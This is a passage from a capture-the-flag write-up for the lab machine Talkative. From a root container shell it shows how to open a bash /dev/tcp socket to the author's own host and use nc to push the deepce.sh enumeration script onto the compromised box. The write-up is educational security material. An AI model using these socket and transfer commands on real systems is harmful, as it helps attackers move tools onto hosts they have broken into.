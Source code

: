 The box does have `node`, `perl`, and `bash`, each of which would provide ways
to upload. I’ll show `bash` since that’s what I like best, and it’s most
common to find in this scenario.

#### bash Upload

[This gist](https://gist.github.com/jadell/871512) gives a clean and simple
way to write to and from a socket using just bash.

To show this, I’ll start `nc` listening on 9001 on my host. From Talkative,
I’ll run `exec 3<>/dev/tcp/10.10.14.6/9001`, which returns without any
message. At `nc`, it’s connected:

    
    
    oxdf@hacky$ nc -lnvp 9001
    Listening on 0.0.0.0 9001
    Connection received on 10.10.11.155 60860
    

At this point, I’ve created a file descriptor (3), and have both in and out
for it redirecting to `/dev/tcp/10.10.14.6/9001`. So reading and writing to 3
will read and write to this special file, which will represents a TCP socket
between Talkative and my host. For this to work, the socket has to open, so it
has, and that’s the “Connection received” message.

I can write to the descriptor / socket with something like `echo "test!" >&3`,
and it comes out on my host:

    
    
    Connection received on 10.10.11.155 60860
    test!
    

If I run `cat <&3`, then it will hang, waiting for input from the socket.
Because `nc` was run without any input, I can go into that window and type a
message:

    
    
    Connection received on 10.10.11.155 60860
    test!
    Hello from hacky!
    

And it’s sent back to Talkative:

    
    
    root@c150397ccd63:/dev/shm# cat <&3
    Hello from hacky!
    

To get a file up, I’ll kill the `nc` window and re-run it like this:

    
    
    oxdf@hacky$ md5sum deepce.sh 
    fbbbd13e42ed84c07f8fde52ac035706  deepce.sh
    oxdf@hacky$ cat deepce.sh | nc -lnvp 9001
    Listening on 0.0.0.0 9001
    